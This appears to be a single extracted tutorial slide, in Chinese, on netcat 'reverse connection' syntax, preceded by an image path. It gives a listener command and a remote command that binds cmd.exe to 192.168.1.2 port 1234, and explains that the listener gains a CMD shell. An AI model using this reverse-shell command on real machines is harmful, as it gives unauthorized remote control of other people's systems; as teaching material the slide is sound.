

常用语法简单介绍
反向连接
【本地运行】netcat -l –vv -p 1234

【远程运行】netcat -t -e ％windir%\system32\cmd.exe 192.168.1.2 1234

采用反向连接方式，先在本地主机运行 nc -l –vv -p 1234 开启1234 端口并监听等待远程主机连接；在远程主机上运行 nc -t -e cmd.exe 192.168.1.2 1234 将远程主机的 CMD 重定向到 IP 地址为 192.168.1.2(即本机) 端口号为1234 的主机上，连接成功后 IP 地址为 192.168.1.2 的主机会得到一个CMDShell。